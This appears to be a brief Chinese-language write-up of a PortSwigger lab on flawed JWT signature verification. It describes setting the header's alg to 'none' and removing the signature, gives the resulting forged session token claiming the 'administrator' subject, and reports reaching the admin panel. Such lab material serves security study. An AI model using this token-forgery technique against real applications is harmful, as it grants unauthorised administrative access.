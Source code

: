 ### 缺陷的签名认证

![image-20250512202001564](./img/image-20250512202001564.png)

将头部的`alg`（签名的算法），改为`none`，并删除最后的签名部分

```json
session=eyJraWQiOiI1NzA1YWVkZi0wYmY5LTRjZWMtYTg1MC04YjM0NjViYzVmZTAiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzA1NTc1MCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
```

![image-20250512202223633](./img/image-20250512202223633.png)

成功到管理界面
